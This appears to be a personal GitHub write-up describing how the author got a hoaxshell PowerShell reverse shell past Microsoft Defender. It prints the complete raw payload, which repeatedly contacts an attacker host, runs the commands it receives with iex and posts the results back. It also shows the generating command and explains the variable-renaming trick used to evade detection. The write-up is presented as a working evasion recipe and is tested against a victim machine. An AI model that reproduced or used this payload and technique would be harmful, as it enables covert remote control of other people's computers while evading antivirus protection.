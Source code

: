 # hoaxshell

Feb 23,

So I just want to share my writeup because I've been trying to bypass
defender for sometime now and this is the first time I Officially bypassed
Defender , I've spent countless hours obfuscating my powershell
command using unicorn, invoke-obfuscation and chimera , I would highly
suggest to watch t3l3machus it definitely helped me to bypass
defender, thank you brother

![2-1](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/2b438ba0-2e94-4c58-9e86-4a95ab128d5f)

#1. Create a shell using Hoaxshell

I used this command,
```
./hoaxshell.py -s 192.168.50.46 -r -H 'Authorization'
```
`
-r = raw payload
-H = additional hoaxshell tag to bypass defender
`

and then it will spit out this shell here

```
$s='192.168.50.46:8080';$i='db6a3b05-dc656d46-1fb446ac';$p='
[http://';$v=Invoke-WebRequest](http://';$v=Invoke-WebRequest) -UseBasicParsing -Uri $p$s/db6a3b05 -
Headers @{"Authorization"=$i};while ($true){$c=(Invoke-WebRequest -
UseBasicParsing -Uri $p$s/dc656d46 -Headers
@{"Authorization"=$i}).Content;if ($c -ne 'None') {$r=iex $c -
ErrorAction Stop -ErrorVariable e;$r=Out-String -InputObject $r;
$t=Invoke-WebRequest -Uri $p$s/1fb446ac -Method POST -Headers
@{"Authorization"=$i} -Body
([System.Text.Encoding]::UTF8.GetBytes($e+$r) -join ' ')} sleep 0.8}
```
![2-2](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/3bde52e7-7870-4b65-9a04-b0f687e34683)

 ```

this raw payload would be flagged down by microsoft so I used variable
substitution I learned from t3l3machus,
Using python I used uuid module as well to create random strings

python commands I used to spit out 10 random strings

import uuid
uuid.uuid4().hex
for i in range(10):
uuid.uuid4().hex

## ```
![2-3](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/0552328b-5e21-4b7b-b59f-d6d3b180066f)


## ```

and then I opened sublime text to edit some variables , I changed 7
variables from the raw payload before, to look like this,
```
![2-4](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/9789c167-9a55-4b5e-af13-92dc7a6dfd8b)

## ```

and then I tested it in my victim machine with Microsoft Defender
active , and it WORKS!!!
```
![2-5](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/4b857298-8967-4d0d-be16-d95955772431)


## ```

I waited for 15mins to check if I would be disconnected.... I noticed that I
am not getting disconnected even when I am executing commands like
ipconfig,sysinfo,whoami etc... , The only time I got disconnected was
when I created a file in the desktop folder
```
![2-6](https://github.com/sudo-awk/av_evasion-hoaxshell/assets/106952099/21268880-ba81-46e8-89ef-155e251011be)

## ```




